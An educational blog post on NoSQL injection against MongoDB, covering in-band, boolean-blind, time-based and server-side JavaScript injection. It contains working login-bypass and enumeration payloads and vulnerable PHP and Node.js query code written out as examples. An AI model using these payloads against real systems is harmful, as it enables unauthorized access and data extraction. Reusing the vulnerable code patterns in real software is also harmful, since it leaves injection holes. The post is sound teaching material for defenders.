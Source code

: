 ```yaml
---
title: "NoSQL Injection Attacks"
date: 2025-02-18
draft: false
description: "Introduction into NoSQL Injection Attacks"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-syringe text-primary-400"></i> Overview
<span class="text-primary-400">NoSQL</span> databases like MongoDB, Couchbase, and Cassandra have gained immense popularity due to their flexibility, scalability, and performance benefits over traditional relational databases. However, with this rise in adoption comes an increase in security vulnerabilities. NoSQL injection attacks occur when <span class="text-primary-400">untrusted user input is improperly handled and executed</span> within a NoSQL query, allowing an attacker to manipulate database operations. These vulnerabilities are <span class="text-primary-400">as dangerous as traditional SQL injections</span> but are often overlooked due to the misconception that NoSQL databases are inherently secure.

## <i class="fa-solid fa-compass text-primary-400"></i> Types of NoSQL Injection
NoSQL injection attacks can be categorized based on how the attacker interacts with the database and the feedback received. Understanding these types is crucial for both developers and security professionals to identify and mitigate potential threats.

### In-Band Injection
In-Band Injection involves the attacker using the <span class="text-primary-400">same communication channel</span> to both launch the attack and gather results. This method is straightforward because the feedback is immediate.

<b class="text-primary-400">Example Scenario</b>: Consider a web application using MongoDB that accepts user login credentials via an HTTP `POST` request. The vulnerable PHP code might look like this:

```php
// Vulnerable PHP code
$collection->find([
    'username' => $_POST['username'],
    'password' => $_POST['password']
]);

$collection->find($query);
```

An attacker can craft an HTTP request to exploit this unsanitized input:

{{< highlight http "linenos=false,hl_lines=5" >}}
POST /login.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin&password[$ne]=null
{{< /highlight >}}

<b class="text-primary-400">Explanation</b>: PHP Array Syntax -- When writing MongoDB queries in PHP, arrays represent MongoDB’s query structure. The syntax `password[$ne]=null` translates to an associative array in PHP:

```php
$query = [
    'password' => [
        '$ne' => null
    ]
];
```

Resulting Query:

```php
db.users.findOne({
    username: "admin",
    password: { "$ne": null }
});
```

Since the password is <span class="text-primary-400">not null</span>, the condition is <span class="text-primary-400">true</span>, and the attacker gains unauthorized access as the admin.

### Blind Injection
Blind Injections occur when an attacker <span class="text-primary-400">cannot see the direct results</span> of their injected queries but can <span class="text-primary-400">infer information based on the application’s responses</span>, such as differences in content, HTTP status codes, error messages, or response times.

#### Boolean-Based
In a <span class="text-primary-400">Boolean-Based Blind Injection</span>, the attacker sends <span class="text-primary-400">queries that evaluate to either true or false</span> and observes the application’s behavior to infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Consider a search functionality with a NoSQL Injection vulnerability, where users can search for products. An attacker sends a request with a crafted search term:

```HTTP
GET /search.php?search[$regex]=^S.* HTTP/1.1
Host: example.com
```

If a product starting with the letter “<span class="text-primary-400">S</span>” exists:

{{< highlight http "linenos=false,hl_lines=5" >}}
HTTP/1.1 200 OK
Content-Type: text/html

{
  Exists: true
}
{{< /highlight >}}


Otherwise:

{{< highlight http "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html

No products found.
{{< /highlight >}}

To extract the full name of the product, the attacker continues testing each subsequent character to reconstruct the produc name:

```
search[$regex]=^Se.*  ✔️
search[$regex]=^Sea.* ✖️
search[$regex]=^Sec.* ✔️
…
search[$regex]=^SecretProduct$
```

The `$` indicates the end of a string, verifying if the entire word is correct.

#### Time-Based
In a <span class="text-primary-400">Time-Based Blind Injection</span>, the attacker sends queries that cause the server to <span class="text-primary-400">delay its response when certain conditions are true</span>. By measuring these response times, the attacker can infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Assume a NoSQL Injection vulnerability in the username parameter:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "username": {
       "$where": "function() { if(this.username == 'admin') { sleep(5000); } return true; }"
    },
    "password": "randompassword"
}
```

<b class="text-primary-400">Explanation</b>: JavaScript Function -- The `this` keyword refers to the current document being evaluated in the collection.

```JS
if(this.username == 'admin') { sleep(5000); }
```

<b class="text-primary-400">Behavior</b>: If `this.username == 'admin'` evaluates to true, the function calls `sleep(5000)` to delay the response by 5 seconds, indicating that the username exists. Otherwise, the response time remains normal.

An attacker can enumerate usernames or other fields character by character using a similar method:

```Json
{
    "username": {
        "$where": "function() { if (this.username[0] == 'a') { sleep(5000); } return true; }"
    },
    "password": "irrelevant"
}
```

By systematically testing each character position, the attacker can reconstruct sensitive information.

### Server-Side JavaScript Injection (<span class="text-primary-400">SSJI</span>)
MongoDB allows the use of JavaScript expressions in queries via the `$where` operator. If not handled securely, this feature can be exploited.

<b class="text-primary-400">Example Scenario</b>: Consider the following MongoDB query in a Node.js application:

```JS
collection.findOne({
  $where: `this.username == '${username}' && this.password == '${password}'`
}, function(err, user) {
    if (user) {
        res.send('Logged in as ' + user.username);
    } else {
        res.send('Authentication failed');
    }
});
```

An attacker can manipulate the `username` field to inject malicious code:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin' || true //&password=anything
```

Resulting Query:

```JS
db.users.findOne({
    $where: "this.username == 'admin' || true // ' && this.password == 'anything'"
});
```

<b class="text-primary-400">Effect</b>: The condition `this.username == 'admin' || true` always evaluates to true, allowing the attacker to bypass authentication.

<b class="text-primary-400">Further Exploitation</b>: Attackers can use injections like `" || ""=="` or `" || true || ""=="` to evaluate the entire query to true. They can also enumerate fields using functions like `match($regex)` and the character-by-character approach mentioned earlier.